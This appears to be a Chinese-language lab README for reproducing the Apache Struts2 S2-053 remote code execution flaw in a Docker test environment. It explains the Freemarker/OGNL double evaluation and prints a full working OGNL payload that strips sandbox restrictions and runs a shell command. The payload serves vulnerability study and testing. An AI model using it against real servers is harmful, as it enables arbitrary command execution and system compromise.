

# S2-053 远程代码执行漏洞

影响版本: Struts 2.0.1 - Struts 2.3.33, Struts 2.5 - Struts 2.5.10

漏洞详情:

 - http://struts.apache.org/docs/s2-053.html
 - https://mp.weixin.qq.com/s?__biz=MzU0NTI4MDQwMQ==&mid=2247483663&idx=1&sn=6304e1469f23c33728ab5c73692b675e

## 测试环境搭建

```
docker-compose up -d
```

环境运行后，访问`http://your-ip:8080/hello.action`即可看到一个提交页面。

## 漏洞复现

Struts2在使用Freemarker模板引擎的时候，同时允许解析OGNL表达式。导致用户输入的数据本身不会被OGNL解析，但由于被Freemarker解析一次后变成离开一个表达式，被OGNL解析第二次，导致任意命令执行漏洞。

输入如下Payload即可成功执行命令：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}

```



说明：有的同学说无法复现漏洞，经过我的测试，我发现上述Payload末尾的**换行**不能掉（也就是说payload后面必须跟一个换行，虽然我也不知道为什么），再发送即可成功。
